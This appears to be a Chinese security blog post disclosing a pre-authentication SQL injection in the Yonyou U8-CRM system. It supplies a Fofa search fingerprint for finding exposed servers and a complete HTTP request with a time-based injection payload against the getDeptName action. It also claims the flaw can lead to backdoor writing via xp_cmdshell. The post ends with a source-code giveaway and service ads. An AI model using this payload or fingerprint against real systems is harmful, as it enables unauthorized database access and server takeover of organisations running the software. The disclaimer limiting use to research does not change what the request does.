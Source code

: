 #  用友U8-CRM系统存在前台SQL注入漏洞   
原创 Mstir  星悦安全   2024-12-13 04:57  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**用友U8CRM是一款集CRM、呼叫中心、OA核心应用于一体，提供前端营销、后端业务处理及员工管理一体化应用的管理软件。软件立足代理销售服务行业管理一体化的高度，以“整合、专业、智能、畅捷”为产品研发理念，弥补了代理销售服务行业信息化管理的空白，为其经营管理的腾飞注入了强大的力量！**  
  
**Fofa指纹:title="用友U8CRM"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f5giaBhicHRkXpCzGjpERliaPBFdZfPHT3hVOAVibt1fFlQHiaFdEFuh3sibsDmBNuKmSSIgRohI2lPjNw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f5giaBhicHRkXpCzGjpERliaPznH7IOnWqFhTDPvwg8PRCOwcHEDPL8BrtWIjqlGs3EeCuQ2ZljYU0Q/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f5giaBhicHRkXpCzGjpERliaPoOic6fHia2jt42qa5bbBd1CrzKtNn26OiarrgWg7aaia10rxlKsfPGnmmw/640?wx_fmt=png&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
**用友U8+CRM系统getDeptName存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。**  
```
POST /lead/leadconversion.php?DontCheckLogin=1&Action=getDeptName HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

userid=1%27;WAITFOR+DELAY+%270:0:5%27--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f5giaBhicHRkXpCzGjpERliaPXkkRWc1JUquBxEQAqsKClfpgLH2rZHsYKIHNdZfuBic0fWX3o5nQTyg/640?wx_fmt=png&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**用友U8源码关注公众号发送 241213 获取!**  
  
****  
  
  
  
**承接SRC众测、代码审计、红蓝攻防、培训、招聘等业务 小助理微信：Lonely3944**  
  
**PS:代码审计，Fofa网站数100以下无偿审计**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5f5giaBhicHRkXpCzGjpERliaPs1eeGLOH5f0xneaZzlzZeqDbsU9XlriaC8f3XMxfZvn5OI0OXBtGNoA/640?wx_fmt=jpeg&from=appmsg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
